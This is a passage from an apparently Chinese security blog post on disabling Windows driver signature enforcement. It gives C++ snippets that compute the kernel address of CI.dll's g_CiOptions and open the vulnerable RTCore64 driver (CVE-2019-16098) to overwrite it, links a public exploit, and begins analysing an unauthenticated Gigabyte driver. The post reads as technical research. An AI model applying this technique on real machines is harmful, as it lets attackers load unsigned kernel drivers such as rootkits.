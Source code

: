 ```plain
            return (DWORD64)(pvModules->Modules[i].ImageBase);
        }

    }
    return 0;
}
```

获取内核下的g\_options:

```plain
DWORD64 g_op = (gOption_NextLine & ~(ULONGLONG)0xFFFFFFFF) + ((gOption_NextLine + gOption_Value) & (ULONGLONG)0xFFFFFFFF);
    printf("g_op = %p \r\n",g_op);

    ULONG64 Kernel_option = GetCiBaseAdress() + (g_op - (ULONG64)hModule);

    printf("kernelOptions = %p \r\n", Kernel_option);
```

> [https://github.com/0xDivyanshu-new/CVE-2019-16098/blob/main/exploit.cpp](https://github.com/0xDivyanshu-new/CVE-2019-16098/blob/main/exploit.cpp)

接下来就只需要使用漏洞驱动去修改此地址，一般来说是使用RTCore

```plain
const auto Device = CreateFileW(LR"(\\.\RTCore64)",GENERIC_READ | GENERIC_WRITE,0,nullptr,OPEN_EXISTING,0,nullptr);

    if (Device == INVALID_HANDLE_VALUE)
    {
        printf("[!] Unable to obtain a handle to the device object");
        return;
    }

    cout << ReadMemoryWORD(Device, Ci_gOptions) << endl;
```

只需要将这个值改为0后就可以加载未签名的驱动了，当然你的驱动加载完毕后需要在将该值改为6。否则会蓝屏

如果说不想使用RTCore64则可以使用去年的技嘉驱动，找了一下发现国内还没发布过这个漏洞的分析，所以在这里做个简单分析：

通过驱动入口点观察，发现注册了派遣函数：sub\_12D10，以及设备\\Device\\GIO，并没有做任何相关认证:
